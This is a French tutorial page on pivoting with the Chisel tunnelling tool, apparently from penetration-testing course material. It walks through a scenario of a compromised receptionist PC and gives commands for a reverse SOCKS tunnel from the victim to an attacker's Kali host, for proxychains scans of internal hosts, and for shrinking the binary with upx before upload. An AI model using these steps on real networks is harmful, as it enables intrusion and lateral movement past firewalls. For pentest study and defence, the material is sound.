

# Chisel — Le Tunnel Souterrain

<div
  class="omny-meta"
  data-level="🔴 Avancé"
  data-version="1.9.1+"
  data-time="~20 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Le Tunnel d'Évasion sous le Mur"
    Imaginez que vous avez piraté le PC de la secrétaire de l'entreprise (situé dans le hall d'accueil). Vous voulez attaquer le serveur des Ressources Humaines. Problème : Le pare-feu de l'entreprise bloque tout accès depuis Internet vers les RH. Seuls les PC de l'accueil y ont droit.
    **Chisel** va creuser un tunnel virtuel. Il crée un "tuyau" depuis votre ordinateur (Kali Linux) jusqu'au PC de la secrétaire. Désormais, toutes vos attaques (Nmap, Metasploit) vont glisser dans ce tuyau et "sortir" par le PC de la secrétaire. Aux yeux du serveur RH, c'est la secrétaire qui l'attaque, pas vous.

Développé en **Go** (Golang), `chisel` est l'un des outils de **Pivoting** les plus populaires de ces dernières années. Son principal avantage est qu'il encapsule tout le trafic réseau (les attaques) à l'intérieur du protocole HTTP/HTTPS. Cela lui permet de traverser quasiment tous les pare-feux d'entreprise qui laissent généralement toujours sortir le trafic HTTP (Port 80) vers Internet.

<br>

---

## Architecture & Mécanismes Internes

### Le SOCKS5 Reverse Proxy
Contrairement à un proxy classique où vous vous connectez à la victime, ici, c'est la victime compromise qui initie la connexion vers votre ordinateur (pour contourner le pare-feu entrant).



<br>

---

## Intégration dans la Kill Chain

| Phase Précédente | Chisel | Phase Suivante |
| :--- | :--- | :--- |
| **Exploitation & Privesc** <br> (*LinPEAS / Metasploit*) <br> On a obtenu un shell `root` sur le serveur public (DMZ). | ➔ **Mouvement Latéral (Pivoting)** ➔ <br> On upload Chisel et on ouvre un tunnel SOCKS5 vers l'ordinateur de l'attaquant. | **Découverte Interne** <br> (*Proxychains + Nmap*) <br> On scanne le réseau interne caché (192.168.X.X) en passant à travers le tunnel. |

<br>

---

## Workflow Opérationnel & Lignes de Commande Avancées

Le workflow Chisel nécessite **deux** machines : le serveur (votre Kali) et le client (la victime). 

### 1. Préparation du Serveur (Chez l'attaquant)
On lance Chisel en mode "Serveur" et on l'autorise à recevoir des connexions inversées (`--reverse`).
```bash title="Sur Kali Linux"
# On écoute sur le port 8000 pour recevoir la connexion de la cible
chisel server -p 8000 --reverse
```

### 2. Connexion du Client (Sur la victime)
On a transféré l'exécutable Chisel (Windows ou Linux) sur le PC de la victime. On lui dit de se connecter à notre Kali et d'ouvrir un Proxy SOCKS.
```bash title="Sur la machine compromise"
# Se connecte au port 8000 de Kali et demande un Reverse SOCKS
./chisel client 10.10.10.42:8000 R:socks
```
*(Le terminal Kali vous confirmera : `session#1: Reverse SOCKS proxy listening on 1080`).*

### 3. Exécution d'une attaque à travers le tunnel (Proxychains)
Votre Kali a maintenant une "porte d'entrée" locale sur le port `1080`. Mais les outils comme Nmap ou Firefox ne savent pas que cette porte existe. Il faut utiliser l'utilitaire **Proxychains** pour "forcer" un programme à passer dans le tunnel.

Ouvrez `/etc/proxychains4.conf` et vérifiez que la dernière ligne est : `socks5 127.0.0.1 1080`.

```bash title="Tirer à travers le tunnel"
# On scanne une adresse IP interne (172.16.5.10) que Kali ne pouvait pas voir avant
proxychains nmap -sT -p 445 172.16.5.10

# On ouvre la page web interne de l'entreprise dans notre Firefox !
proxychains firefox http://172.16.5.10
```

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication technique |
|---|---|---|
| ✅ **À FAIRE** | **Nmap en TCP Complet (`-sT`)** | Proxychains ne gère **que** les connexions TCP complètes (le 3-Way Handshake complet). Le scan par défaut de Nmap (le fameux SYN Scan `-sS` hyper rapide) ne peut pas traverser un proxy SOCKS5. Si vous oubliez le drapeau `-sT` avec Nmap + Proxychains, tous les ports apparaîtront "fermés" à tort. |
| ❌ **À NE PAS FAIRE** | **Oublier la taille du binaire** | Le binaire `chisel` compilé en Go fait environ **10 Mo**. C'est absolument énorme pour un attaquant (difficile à télécharger sur un serveur victime qui a une mauvaise connexion réseau ou un espace disque restreint). Utilisez la commande `upx chisel` avant de l'envoyer pour compresser l'exécutable à ~3 Mo. |

